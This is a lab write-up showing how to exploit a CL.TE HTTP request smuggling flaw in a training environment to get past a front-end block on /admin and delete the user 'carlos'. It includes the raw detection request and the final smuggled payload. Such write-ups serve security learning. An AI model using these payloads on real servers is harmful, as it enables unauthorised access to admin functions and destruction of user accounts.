






# Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
# Objective
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.
To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`.

# Solution
## Analysis
### Confirming that /admin path exists
||
|:--:| 
| *Path /admin exists and is blocked* |


###  Determining what the front-end and back-end is using
`Time out` confirms `CL.TE` vulnerability.

```
POST / HTTP/1.1
Host: 0a8f000504d220a7810962b60088009a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
nap
X

```

||
|:--:| 
| *Front-end is using CL* |
| *Back-end is using TE* |

## Exploitation
First request poisoned the back-end. Second (the same request) was added to the end of the previous request - based on the second `Content-Length` header. The `POST / HTTP/1.1` was ignored thanks to `x` parameter and `Content-Length` value from payload. `Content-Length` can be set 3 (only 1 letter would be added to the smuggled request, the rest would be ignored) or can be set to 50 (bigger part of the second request would be added to the smuggled request).

Final payload:
```
POST / HTTP/1.1
Host: 0a8f000504d220a7810962b60088009a.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 138
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```

||
|:--:| 
| *Request was smuggled but Host header value was wrong* |
||
| *Request was smuggled but duplicate header names (Host) are not allowed* |
||
| *Request was smuggled successfuly* |
||
| *Deletion of user Carlos* |